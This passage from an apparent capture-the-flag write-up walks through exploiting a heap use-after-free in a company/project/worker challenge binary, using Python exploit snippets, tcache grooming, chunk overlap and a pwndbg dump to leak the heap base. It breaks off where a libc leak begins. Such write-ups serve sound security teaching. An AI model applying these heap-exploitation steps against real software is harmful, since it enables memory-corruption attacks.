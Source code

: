 ```
largebins
empty
```

```python
add_company(b"grr", 1000) # 0x51: 6
add_project(b"grr", b"p0", 500) # 0x51: 5
add_project(b"grr", b"p1", 500) # 0x51: 4

# clear 0x41 tcache
for i in range(15):
    hire_worker(b"grr", b"p0", b"tom" + str(i).encode(), 0x30)
```

Now, our last worker tom14 will have forced the last remainder chunk to overlap
exactly with our project's name size field. However, there's one more problem -
our victim project's company pointer is invalid, so the program will crash when we
call `worker_info`.

```
pwndbg> x/32gx 0x555555588690
0x555555588690: 0x0000000000000030      0x0000555555588510
0x5555555886a0: 0x0000555555588310      0x0000000000000091
0x5555555886b0: 0x000015555514cb20      0x000015555514cb20
0x5555555886c0: 0x0000000000000000      0x00005555555894d0
0x5555555886d0: 0x00005555555894d0      0x00005555555896d0
0x5555555886e0: 0x00000000000000a0      0x0000000000000050
                ^^ invalid *company
```

If we overlaid an actual project over this chunk, we can get the victim company
pointer to align with the actual project's `workers->end` pointer, which will
be initialized when we add a worker to it.

```python
for i in range(2, 6):
    add_project(b"grr", b"p" + str(i).encode(), 500)

hire_worker(b"grr", b"p5", b"robot999", 0x30)
```

Finally, we can leak our heap base:

```python
worker_info(b"john0")
p.interactive()
p.recvuntil(b"Project name: ")
leak = p.recvline().strip()
heap_base = u64(leak[16:24]) - 0x13330
```

### Leaking libc

Now that we have heap base, we can also leak libc from unsorted chunks. First,
let's free up the UAF project so we can reuse it for libc leak:
